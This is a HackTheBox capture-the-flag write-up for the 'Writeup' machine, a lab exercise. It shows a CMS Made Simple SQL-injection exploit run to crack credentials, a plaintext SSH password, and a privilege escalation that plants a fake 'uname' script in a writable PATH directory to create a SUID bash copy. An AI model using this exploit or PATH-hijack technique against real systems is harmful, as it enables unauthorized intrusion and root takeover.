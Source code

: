 # Writeup HackTheBox

![image](https://user-images.githubusercontent.com/5285547/124397537-3e527400-dd08-11eb-9e21-914eb4ef2ea0.png)

## Nmap 

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-title: Nothing here yet.
```


## Robots.txt

![image](https://user-images.githubusercontent.com/5285547/124394688-72259d80-dcf8-11eb-879b-2e092ef3c570.png)


## /writeup/

![image](https://user-images.githubusercontent.com/5285547/124394807-e6f8d780-dcf8-11eb-9399-2ca31be26055.png)

Checking the source code of the page we can see the CMS being used here. 

Redacted source code http://10.10.10.138/writeup/
```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

I quickly found this exploit online: https://www.exploit-db.com/exploits/46635

Downloading, editing and running the exploit gave me some creds. 

Python3 version (Edited by me): https://github.com/AssassinUKG/Writeups/blob/main/hackthebox/dare/writeup/cmsExploit/cms.py

```
cms.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/SecLists/Passwords/rockyou.txt
```
![image](https://user-images.githubusercontent.com/5285547/124398557-33024700-dd0e-11eb-8b70-9aac12e92f52.png)


## User

Using the found credentials we can now ssh onto the box

```
ssh jkr@10.10.10.138
raykayjay9
```

And grab the user.txt flag

## Root

I transfer linpeas.sh to the box and start it off, after a little while I can see a few paths that we have write access too. 

![image](https://user-images.githubusercontent.com/5285547/124398967-6e057a00-dd10-11eb-97fd-5a9c72e761cf.png)

Not having found mucn, let's also check the running process's with pspy64 to see whats running as root
Nothing was running that I could exploit so I went to make a new ssh connection to send some more files over to help. 
That's when I noticed the login messages in pspys output.  
Now I see a file without a full path provided. 

![image](https://user-images.githubusercontent.com/5285547/124399353-b6259c00-dd12-11eb-9f55-99b1cc6bf9b3.png)

These lines in particular are of intrest

```
2021/07/04 16:54:44 CMD: UID=0    PID=15322  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/04 16:54:44 CMD: UID=0    PID=15323  | uname -rnsom
```

Let's check the path for the paths we can write in. 

```
echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

We see /usr/local/bin is first, as we can write to it, lets make our file here.

Check to see where uname is too. 

```
find / -name uname 2>/dev/null

/bin/uname
/usr/lib/klibc/bin/uname
```

I'll make a new file called uname

```
nano /usr/local/bin/uname
```

```
#!/bin/bash
cp /bin/bash /tmp/b
chmod u+s /tmp/b
echo "Exploited2"
```

Then make it executable and try to login again. 

```
chmod +x uname
```

![image](https://user-images.githubusercontent.com/5285547/124399650-b45cd800-dd14-11eb-84b4-0708a9e1556e.png)

I see the message so we should be able to get root with 

```
/tmp/b -p
```

Success!!

![image](https://user-images.githubusercontent.com/5285547/124399683-f259fc00-dd14-11eb-9780-a0ddb82cb446.png)


